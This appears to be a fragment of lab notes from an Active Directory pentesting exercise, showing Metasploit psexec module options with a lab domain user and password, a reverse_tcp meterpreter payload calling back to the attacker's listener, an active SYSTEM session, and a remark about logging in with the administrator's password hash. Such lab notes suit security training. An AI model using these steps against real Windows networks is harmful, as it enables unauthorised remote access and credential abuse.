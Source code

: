 ```

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ PUNISHER  192.168.64.4:4444 -> 192.168.64.220:49721 (192.168.64.22
                                                                     0)

msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > options

```

- WE can use the administrator with password hash to login just change the options

#administratorhashpsexec 

- Previous OPTIONS

```
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.64.220   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                    /basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             MARVEL.local     no        The Windows domain to use for authentication
   SMBPass               P@$$w0rd1        no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               fcastle          no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.4     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



```